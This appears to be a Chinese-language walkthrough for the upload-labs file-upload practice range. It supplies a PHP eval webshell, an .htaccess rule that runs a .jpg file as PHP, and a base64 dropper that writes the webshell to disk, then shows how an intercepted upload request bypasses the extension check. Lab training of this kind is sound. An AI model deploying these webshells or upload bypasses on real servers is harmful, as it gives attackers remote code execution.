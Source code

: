 文件上传靶场。

## 1 安装

下载

```shell
[root@centos ~]# git clone https://github.com/c0ny1/upload-labs.git
```

准备

`webshell.php`

```php
<?php @eval($_POST[um931o]);?>
```

> 可执行任意代码的 PHP 文件

`.htaccess`

```htaccess
<FilesMatch "webshell.jpg">
SetHandler application/x-httpd-php
</FilesMatch>
```

> 此配置文件将同一文件夹下名为 `webshell.jpg` 的文件视为 PHP 文件来执行

`shell.php`

```php
<?php
$code='PD9waHAgQGV2YWwoJF9QT1NUW3VtOTMxb10pOz8+';
$myfile = fopen("shell.php", "w");
fwrite($myfile, base64_decode($code));
fclose($myfile);
?>
```

> 将用 base64 编码的一句话木马解码并写入到生成的 shell.php 文件

## 2 使用

访问

> http://centos7-6.local/upload-labs/

### 2.1 Pass-01

**修改后缀名绕过**

修改 `webshell.php` 的后缀名为 `webshell.jpg`

打开拦截，修改请求数据包中的 `filename="webshell.jpg"` 为 `filename="webshell.php"` 

关闭拦截即可将 `webshell.php` 上传至目标服务器

右键缩略图复制图片地址到地址栏访问 `webshell.php` 
